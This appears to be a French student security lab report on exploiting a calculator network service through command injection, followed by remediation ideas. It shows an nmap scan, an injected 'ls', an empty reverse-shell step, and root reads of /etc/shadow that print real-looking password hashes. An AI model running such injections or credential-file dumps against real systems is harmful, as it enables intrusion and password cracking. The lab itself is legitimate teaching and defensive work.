 # TP5 SECU : Exploit, pwn, fix

## Sommaire

- [TP5 SECU : Exploit, pwn, fix](#tp5-secu--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

🌞 **Déterminer**

```bash
IP = 10.33.66.78
Port = 13337
```

➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

```bash
Nmap scan report for 10.33.66.78
Host is up (0.12s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
```

🦈 **tp5_nmap.pcapng**

🌞 **Connectez-vous au serveur**

```bash
2024-10-24 11:08:55 INFO Connexion réussie à 10.33.66.78:13337
2024-10-24 11:08:55 INFO Réponse reçue du serveur 10.33.66.78 : b'Hello'
2024-10-24 11:08:59 INFO Message envoyé au serveur 10.33.66.78 : 1 + 1
```

## 2. Exploit

🌞 **Injecter du code serveur**

```bash
stan@Stanislass-MacBook-Pro-2 tp5-secu-2024 % python3 client.py
command : ls
'afs\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n'
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**

```bash
```

🌞 **Pwn**

```bash
[root@localhost /]# cat /etc/shadow    
root:$6$.8fzl//9C0M819BS$Sw1mrG49Md8cyNUn0Ai0vlthhzuSZpJ/XVfersVmgXDSBrTVchneIWHYHnT3mC/NutmPS03TneWAHihO0NXrj1::0:99999:7:::
bin:*:19820:0:99999:7:::
daemon:*:19820:0:99999:7:::
adm:*:19820:0:99999:7:::
lp:*:19820:0:99999:7:::
sync:*:19820:0:99999:7:::
shutdown:*:19820:0:99999:7:::
halt:*:19820:0:99999:7:::
mail:*:19820:0:99999:7:::
operator:*:19820:0:99999:7:::
games:*:19820:0:99999:7:::
ftp:*:19820:0:99999:7:::
nobody:*:19820:0:99999:7:::
systemd-coredump:!!:20010::::::
dbus:!!:20010::::::
tss:!!:20010::::::
sssd:!!:20010::::::
sshd:!!:20010::::::
chrony:!!:20010::::::
it4:$6$HTSBHGoZflJxXu9u$i54higNbS5p2zVOLWP6P33D39SyWRrEAOjzh97xRa15KzJU3jZfBi/XIPY3FKDoYoSvo1FrirBwNcgmEVpaPK/::0:99999:7:::
tcpdump:!!:20010::::::
```

```bash
[root@localhost /]# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/:/usr/sbin/nologin
sssd:x:998:996:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/usr/sbin/nologin
chrony:x:997:995:chrony system user:/var/lib/chrony:/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
```

```bash
[root@localhost system]# sudo cat calc.service
[Unit]
Description=calc service

[Service]
Restart=always
ExecStart=/usr/bin/python3 /opt/calc/server.py

[Install]
WantedBy=multi-user.target
```

[server.py](./server.py)

```bash
[root@localhost system]# sudo cat auditd.service    
[Unit]
Description=Security Auditing Service
DefaultDependencies=no
## If auditd is sending or recieving remote logging, copy this file to
## /etc/systemd/system/auditd.service and comment out the first After and
## uncomment the second so that network-online.target is part of After.
## then comment the first Before and uncomment the second Before to remove
## sysinit.target from "Before".
After=local-fs.target systemd-tmpfiles-setup.service
##After=network-online.target local-fs.target systemd-tmpfiles-setup.service
Before=sysinit.target shutdown.target
##Before=shutdown.target
Conflicts=shutdown.target
RefuseManualStop=yes
ConditionKernelCommandLine=!audit=0
ConditionKernelCommandLine=!audit=off

Documentation=man:auditd(8) https://github.com/linux-audit/audit-documentation

[Service]
Type=forking
PIDFile=/run/auditd.pid
ExecStart=/sbin/auditd
## To not use augenrules, copy this file to /etc/systemd/system/auditd.service
## and comment/delete the next line and uncomment the auditctl line.
## NOTE: augenrules expect any rules to be added to /etc/audit/rules.d/
ExecStartPost=-/sbin/augenrules --load
#ExecStartPost=-/sbin/auditctl -R /etc/audit/audit.rules
# By default we don't clear the rules on exit. To enable this, uncomment
# the next line after copying the file to /etc/systemd/system/auditd.service
#ExecStopPost=/sbin/auditctl -R /etc/audit/audit-stop.rules
Restart=on-failure
# Do not restart for intentional exits. See EXIT CODES section in auditd(8).
RestartPreventExitStatus=2 4 6

### Security Settings ###
MemoryDenyWriteExecute=true
LockPersonality=true
# The following control prevents rules on /proc so its off by default
#ProtectControlGroups=true
ProtectKernelModules=true
RestrictRealtime=true

[Install]
WantedBy=multi-user.target
```

[auditd](./auditd)

## II. Remédiation

🌞 **Proposer une remédiation dév**

[server_fixed.py](./server_fixed.py)

[client_fixed.py](./client_fixed.py)

🌞 **Proposer une remédiation système**

- l'environnement dans lequel tourne le service est foireux (le user utilisé ?)
- la machine devrait bloquer les connexions sortantes (pas de reverse shell possible)
- **vous devez donc proposer une suite d'étapes pour empêcher l'exploitation**
  - l'app vulnérable doit fonctionner
  - mais l'exploitation que vous avez utilisé doit être impossible
  - c'est un des jobs de l'admin (et du mec de sécu qui fait des recommandations aux admins) : héberger des apps vulnérables, mais empêcher l'exploitation
